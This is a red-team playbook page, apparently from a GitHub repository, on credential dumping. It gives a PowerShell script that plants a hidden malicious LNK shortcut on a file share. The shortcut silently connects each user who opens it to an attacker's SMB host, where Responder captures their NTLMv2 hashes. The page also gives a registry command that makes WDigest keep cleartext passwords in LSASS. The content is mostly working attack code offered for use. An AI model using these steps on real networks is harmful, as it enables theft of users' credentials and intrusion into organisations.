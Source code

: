 # 4.2 Credential Dumping

## LNK Files

A neat little trick to gather `NTLMv2 Hashes` every time a corporate file share got accessed, is to create a malicious `file`,
which takes place in the same directory on the fileshare.

At first it is necessary to create the malicious file with the following script from [v3ded's blog](https://v3ded.github.io/redteam/abusing-lnk-features-for-initial-access-and-persistence) which I modified slightly to weaponize it for the use with `Responder`.

```c
$path                      = "$([Environment]::GetFolderPath('Desktop'))\<FILE>.lnk"
$wshell                    = New-Object -ComObject Wscript.Shell
$shortcut                  = $wshell.CreateShortcut($path)

$shortcut.IconLocation     = "C:\Windows\System32\shell32.dll,70"

$shortcut.TargetPath       = "cmd.exe"
$shortcut.Arguments        = "/c explorer.exe Z:\PATH\TO\SHARE & \\<LHOST>\foobar" # Calls the SMB share of the responder instance on the C2 server
$shortcut.WorkingDirectory = "C:"
$shortcut.HotKey           = "CTRL+C"
$shortcut.Description      = ""

$shortcut.WindowStyle      = 7
                           # 7 = Minimized window
                           # 3 = Maximized window
                           # 1 = Normal    window
$shortcut.Save()

(Get-Item $path).Attributes += 'Hidden' # Optional if we want to make the link invisible (prevent user clicks)
```

Next, switch the folder icon to the same icons as used on the fileshare. After that all is to hide the target folder with
the following command.

```c
C:\> attrib -h Z:\PATH\TO\FOLDER\<FOLDER>
```

<p align="center">
  <img src="https://github.com/0xsyr0/Red-Team-Playbooks/blob/master/4-Exploitation/files/lnk_payload.png">
</p>

After this the malicious file takes place in the same directory as the hidden non-malicious folder.
Everytime a user opens the folder, his `NTLMv2 Hash` got send to the `C2` server which is running `Responder`.

```c
$ sudo responder -I <INTERFACE>
```

<p align="center">
  <img src="https://github.com/0xsyr0/Red-Team-Playbooks/blob/master/4-Exploitation/files/malicious_file.png">
</p>

## WDigest

### Store cleartext credentials in LSASS

```c
PS C:\> Set-ItemProperty -Force -Path 'HKLM:\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest' -Name "UseLogonCredential" -Value '1'"
```

### Previous

- [4 Exploitation](https://github.com/0xsyr0/Red-Team-Playbooks/blob/master/4-Exploitation/4-Exploitation.md)
- [4.1 Defense Evasion](https://github.com/0xsyr0/Red-Team-Playbooks/blob/master/4-Exploitation/4.1-Defense-Evasion.md)

### Next

- [4.3 Privilege Escalation](https://github.com/0xsyr0/Red-Team-Playbooks/blob/master/4-Exploitation/4.3-Privilege-Escalation.md)
- [4.4 Lateral Movement](https://github.com/0xsyr0/Red-Team-Playbooks/blob/master/4-Exploitation/4.4-Lateral-Movement.md)
